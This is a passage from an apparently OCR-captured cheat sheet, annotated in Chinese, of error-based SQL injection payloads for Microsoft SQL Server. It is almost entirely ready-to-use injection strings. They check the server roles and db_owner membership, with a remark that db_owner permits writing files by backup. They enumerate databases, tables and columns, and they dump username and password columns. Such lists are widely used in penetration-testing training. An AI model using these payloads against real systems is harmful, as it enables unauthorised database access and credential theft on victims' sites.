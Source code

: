 ```sql
and db_name()>0--+
and 1=db_name()--+
# 报错注入的原理就是将其他类型的值转换层int型失败后就会爆出原来语句执行的结果

5.判断当前服务器拥有的权限
and 1=(select IS_SRVROLEMEMBER('sysadmin'))--+
and 1=(select IS_SRVROLEMEMBER('serveradmin'))--+
and 1=(select IS_SRVROLEMEMBER('setupadmin'))--+
and 1=(select IS_SRVROLEMEMBER('securityadmin'))--+
and 1=(select IS_SRVROLEMEMBER('diskadmin'))--+
and 1=(select IS_SRVROLEMEMBER('bulkadmin'))--+

6.判断当前角色是否为DB_OWNER 
and 1=(select is_member('db_owner'))--+
# db_owner权限可以通过备份方式向目标网站写文件

7.获取当前用户名
and user_name()>0--+

8,获取所有数据库名
and (select name from master.sys.databases where database_id=1)>0--+
# 更改database_id的值来获取所有的数据库

9.获取数据库的个数 
and 1=(select quotename(count(name)) from master.sys.databases)--+

10.一次性获取所有数据库库
and 1=(select quotename(name) from master.sys.databases for xml path(''))--+

11.获取所有的表名 
# 获取当前库第一个表
and 1=(select top 1 table_name from information_schema.tables)--+
# 获取当前库第二个表
and 1=(select top 1 table_name from information_schema.tables where table_name not in('emails'))--+
# 获取当前库第三个表
and 1=(select top 1 table_name from information_schema.tables where table_name not in('emails','uagents'))--+
# 也可通过更改top 参数获取表
and 1=(select top 1 table_name from information_schema.tables where table_name not in
(select top 5 table_name from information_schema.tables))--+
# quotename和for xml path('')一次性获取全部表
and 1=(select quotename(table_name) from information_schema.tables for xml path(''))--+
# quotename()的主要作用就是在存储过程中，给列名、表名等加个[]、’’等以保证sql语句能正常执行。

12.获取字段名
# 通过top 和 not in 获取字段
and 1=(select top 1 column_name from information_schema.columns where table_name='users')--+
and 1=(select top 1 column_name from information_schema.columns where table_name='users' and column_name not in ('id','username'))--+
# 通过quotename 和 for xml path('') 获取字段
and 1=(select quotename(column_name) from information_schema.columns where table_name='emails' for xml path(''))--+

13.获取表中数据
and 1=(select quotename(username) from users for xml path(''))--+
and 1=(select quotename(password) from users for xml path(''))--+
```
